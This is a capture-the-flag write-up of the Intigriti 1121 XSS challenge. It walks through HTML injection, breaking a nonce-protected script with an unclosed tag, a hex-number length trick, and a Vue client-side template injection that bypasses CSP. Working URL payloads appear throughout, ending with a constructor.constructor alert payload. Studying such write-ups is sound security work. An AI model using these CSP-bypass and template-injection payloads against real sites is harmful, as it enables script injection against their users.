

+++
date = '2025-02-04T17:07:19+08:00'
draft = false
title = '1121 Owasp Top 10'
+++

# Challenge description

Execute JS on the page
https://challenge-1121.intigriti.io/challenge/index.php?s=

# HTML Injection

`https://challenge-1121.intigriti.io/challenge/index.php?s=<h1>sink</h1>`

Inspector tab to see the current state of the rendered DOM


When we right click on lines containing `sink` and Edit HTML, we HTML encoding being enforced

```html
&lt;h1&gt;sink&lt;/h1&gt;
```

Try to close the `title` and `p` tag with `?s=</title><h1>sink</h1>`


Note that HTML encoding is applied to the `p` tag context

```html
<p>You searched for &lt;/title&gt;&lt;h1&gt;sink&lt;/h1&gt;</p>
```

Try to close the `p` tag with `?s=</p><h1>sink</h1>` but there is no HTML injection as the tags are HTML encoded.

```html
&lt;/p&gt;&lt;h1&gt;sink&lt;/h1&gt;
```

# Bypassing CSP

As usual, Intigriti challenges are not so straightforward. We can try to inject `script` tags but execution is blocked because of CSP.

`?s=</title><script>alert(document.domain)</script>`

CSP we are dealing with

```http
content-security-policy: base-uri 'self'; default-src 'self'; script-src 'unsafe-eval' 'nonce-3f9d2afa7be4382eab6af5ff2d269a' 'strict-dynamic'; object-src 'none'; style-src 'sha256-dpZAgKnDDhzFfwKbmWwkl1IEwmNIKxUv+uw+QP89W3Q='
```

Only scripts with valid nonce can be executed. There are a couple of scripts that have the valid nonce.

Since the CSP is set by the response header, we can HTML inject a `meta` tag to override the DOM before it is rendered.

In hindsight, the intended solution is to inject a stricter CSP via HTML injection, since the injection is at the head parameter. This will allow us to control what scripts we want to load based on `sha256` of the scripts. Then proceed to exploit script 4 but use `{{ }}` delimiter instead of the custom delimiter `v-{{ }}`.

# Inspecting scripts

## script 1

Script 1 sets a variable isProd to true.

```html
<head>
  <title>You searched for '</p><script>alert(document.domain)</script>'</title>
  <script nonce="3f9d2afa7be4382eab6af5ff2d269a">
    var isProd = true;
  </script>
</head>
```

## script 2

Script 2 seems to define a function that creates a script element and dynamically loads a JS script into the DOM.

Another function definition that initialise a Vue instance for the `#app` element.

```html
<script nonce="3f9d2afa7be4382eab6af5ff2d269a">
  function addJS(src, cb){
  	let s = document.createElement('script');
  	s.src = src;
  	s.onload = cb;
  	let sf = document.getElementsByTagName('script')[0];
    			sf.parentNode.insertBefore(s, sf);
  }

  function initVUE(){
  	if (!window.Vue){
  		setTimeout(initVUE, 100);
  	}
  	new Vue({
  		el: '#app',
  		delimiters: window.delimiters,
  		data: {
  			"owasp":[...].filter(e=>{
  				return (e.title + ' - ' + e.description)
  					.includes(new URL(location).searchParams.get('s')|| ' ');
  			}),
  		"search": new URL(location).searchParams.get('s')
  		}
  	})
  }
</script>
```

## script 3

Script 3 calls the addJS function defined in script 2. The function call takes in client side resource `./vuejs.php` which was served by the server response. This supposed php file actually contains JS code instead.

A variable delimiters is created. By default, Vue.js uses `{{ }}` for interpolating data in templates. For example, `{{ item.title }}`. But a custom delimiter can be use where Vue will interpret `v-{{ item.title }}` instead. Note that the `addJS` method takes in a callback function, in this case `initVUE`. This callback function is called after `./vuejs.php` is loaded.

```html
<script nonce="3f9d2afa7be4382eab6af5ff2d269a">
  var delimiters = ["v-{{", "}}"];
  addJS("./vuejs.php", initVUE);
</script>
```

When `initVUE` is called, a new VUE instance is created with the delimiter defined in `window.delimiters`. In this case, it is `v-{{ }}` from the script above.

## script 4

Script 4 only runs if the `isProd` is not true. However, by default it is set to true in script 1. If not true, it will retrieve the `version` query parameter and limit the value to 12 characters. Another query parameter `vueDevtools` will be retrieved and its value will be sanitized to remove any non-alphanumeric characters and `% . /` and then any multiple leading slashes `//, ///, etc`.

Finally, if version is 999999999999, then `window.legacyLogger` will be called after 1 second delay. This isn't so interesting but may be a good gadget to help us know if we are actually able to control `version`.

If the version is greater than 1000000000000, then `addJS(vueDevtools, window.initVUE)` will be called. This is more interesting if we can get `isProd` to false and control `vueDevtools` to point to a JS script that we control so that it will be loaded by script 4.

```html
<script nonce="3f9d2afa7be4382eab6af5ff2d269a">
  if (!window.isProd) {
    let version = new URL(location).searchParams.get("version") || "";
    version = version.slice(0, 12);
    let vueDevtools = new URL(location).searchParams.get("vueDevtools") || "";
    vueDevtools = vueDevtools
      .replace(/[^0-9%a-z/.]/gi, "")
      .replace(/^\/\/+/, "");

    if (version === 999999999999) {
      setTimeout(window.legacyLogger, 1000);
    } else if (version > 1000000000000) {
      addJS(vueDevtools, window.initVUE);
    } else {
      console.log(performance);
    }
  }
</script>
```

# Abusing DOM parsing

When we view source for the page without any user input to `s` query parameter, we see that the `title` tag is directly above the `script` tag that creates the variable `isProd = true`

`view-source:https://challenge-1121.intigriti.io/challenge/index.php?s=`


We can inspect the console

```js
isProd;
// true
```

Since we can perform HTML injection to the `title` tag, we can abuse DOM parsing to make the script 1 to not properly load in the DOM.

We can simply include an open `script` tag into our payload `?s=</title><script>`.


Inspect the console on the page to see if isProd is defined

```js
isProd;
// ReferenceError: isProd is not defined
```

## Accessing more query parameters for attack vector

Remember that in script 4, if `isProd` is not true, it will use the values in `version` and `vueDevtools` query parameters.

Just for recap, here is script 4.

```html
<script nonce="3f9d2afa7be4382eab6af5ff2d269a">
  if (!window.isProd) {
    let version = new URL(location).searchParams.get("version") || "";
    version = version.slice(0, 12);
    let vueDevtools = new URL(location).searchParams.get("vueDevtools") || "";
    vueDevtools = vueDevtools
      .replace(/[^0-9%a-z/.]/gi, "")
      .replace(/^\/\/+/, "");

    if (version === 999999999999) {
      setTimeout(window.legacyLogger, 1000);
    } else if (version > 1000000000000) {
      addJS(vueDevtools, window.initVUE);
    } else {
      console.log(performance);
    }
  }
</script>
```

We want to be able to use `vueDevtools`, hence our version should be greater than 1000000000000. However, 1000000000000 has 13 characters which is greater than the 12 characters being sliced from `version = version.slice(0,12)`.

In Javascript, there are different ways to represent a number. This may shorten the number of characters needed.

```js
let version = 1000000000001;
// Convert to hexadecimal
Number(version).toString(16);
// e8d4a51001
```

Use `0x` prefix in the version query parameter.

When the version is not 999999999999 or greater than 1000000000000, we should see the `console.log(performance)`. For example with `?s=</title><script>&version=1`


Now with version greater than 1000000000000 - `?s=</title><script>&version=0xe8d4a51001`, we will not see the performance being logged and we will see `src` attribute is empty due to `vueDevtools` not being defined.


Now, lets try and get script 4 to load our JS script instead of `/vuejs.php`. Note that because of the regex in place for `vueDevtools`, we are not able to define our usual URL format `https://attacker.com/evil.js` as `:` will be removed.

It is worth checking if we really need a URI or just a JS script source. Below is script 2 where the `addJS` function is defined.

```js
function addJS(src, cb) {
  let s = document.createElement("script");
  s.src = src;
  s.onload = cb; // initVue() which create a template app
  let sf = document.getElementsByTagName("script")[0];
  sf.parentNode.insertBefore(s, sf);
}
```

We may not be able to do much in controlling what source will be loaded by `addJS`. However, with `?s=</title><script>&version=0xe8d4a51001&vueDevtools=invalid`, we are able to control the JS loaded by `addJS` in script 4.


Note that script 3 already loads the vuejs.php which will cause the page to 'hydrate' the template at the client side (`<div id="app">`) when Vue app is created.

What if we put vueDevtools=./vuejs.php?

We will see that in the network tab, the vuejs.php is requested twice, first from script 3 and next from script 4.

## CSTI to XSS

If we use `?s=v-{{7*7}}` to inject a template string to the DOM for Vue to evaluate, no evaluation will happen.


This is strange as we would expect that Vue will evaluate the template string in the rendered DOM.

When I set breakpoint and step through after Vue is created in script 3, and dump the innerHTML of the DOM in the Vue template, we will see the DOM having `You searched for v-{{7*7}}`


After stepping over line 46, we check the current state of the DOM. The DOM hasn't completely parsed the `<div id"app">` element yet since it is at the below script 3.


We only see the element loaded onto the DOM once the remaining scripts (script 4) in the `head` tag have finished loading.


But when we exploit script 4 which creates the Vue app again along with loading vuejs.php, we get a different result. This time, our template injection works. I tried to debug this behaviour but couldn't come to a conclusive reason of why loading vuejs.php twice will induce the CSTI. I added another section below for the analysis of the template evaluation and my suspicion.

`?s=v-{{7*7}}</title><script>&version=0xe8d4a51001&vueDevtools=./vuejs.php`


Anyway, similar to SSTI, we can execute Javascript like this

`{{constructor.constructor('alert(document.domain)')()}}`
Hence the final payload will be
`?s={{constructor.constructor('alert(document.domain)')()}}</title><script>&version=0xe8d4a51001&vueDevtools=./vuejs.php`


https://book.hacktricks.wiki/en/pentesting-web/client-side-template-injection-csti.html#v2

## Analysis of template evaluation

Payload: `?s=v-{{7*7}}</title><script>&version=0xe8d4a51001&vueDevtools=./vuejs.php`

Set another breakpoint at script 4


Set breakpoint in vuejs.php and click play until you hit the part where Vue processes our injected `v-{{7*7}}`.



```js
// L9377 - text = You searched for v-{{7*7}}</title><script>
while(match = tagRE.exec(text));
...
// L9385 - match[1] = "7*7"
var exp = parseFilters(match[1],trim());
```


Here we are able to see the expression detected during the second addJS by exploiting script 4. If we didn't exploit script 4 and just use the following payload, `?s=v-{{7*7}}`, then the expression will not even be detected during the addJS call in script 3.

I suspect this is something to do with how Vue is initialized in respect to when the Vue template in the DOM is visible to Vue. It seems like during the first addJS, the `v-{{7*7}}` is not visible by Vue, hence no CSTI.
